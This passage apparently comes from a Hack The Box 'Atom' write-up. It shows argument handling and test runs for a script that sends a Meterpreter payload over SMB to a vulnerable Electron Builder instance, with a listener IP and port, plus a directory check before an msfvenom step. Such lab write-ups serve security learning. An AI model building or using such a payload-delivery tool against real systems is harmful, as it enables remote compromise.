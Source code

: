 ```python
    else:
        print("You must provide one of --lip or --lint")
        sys.exit(1)
```

It now nicely handles arguments:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py --help
usage: send-payload.py [-h] [--lip LIP] [--lint LINT] [--lport LPORT] ip payload

Sends a payload to a vulnerable Electron Builder instance over SMB. Parse IP address, Port and Payload from sys args

positional arguments:
  ip             Target IP address
  payload        Meterpreter payload to use

optional arguments:
  -h, --help     show this help message and exit
  --lip LIP      Local IP to listen on. Specify either this or --lint
  --lint LINT    Local interface to listen on. Specify either this or --lip
  --lport LPORT  Local port to listen on
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py 123
usage: send-payload.py [-h] [--lip LIP] [--lint LINT] [--lport LPORT] ip payload
send-payload.py: error: the following arguments are required: payload
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py 123 payload
ip: 123
payload: payload
You must provide one of --lip or --lint
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py a.b.c.d payload --lip w.x.y.z --lint eth0 --lport 9001
ip: a.b.c.d
payload: payload
lip: w.x.y.z
lint: eth0
lport: 9001
IP Address: w.x.y.z
```

## msfvenom

I added a basic check for the serving directory:

```python
#mkdir if doesn't exist
if args.dir is not None:
	path = args.dir
	dirpath = Path(args.dir)

	if not dirpath.is_dir():
		print("Directory not found - creating directory")
		dirpath.mkdir()
```
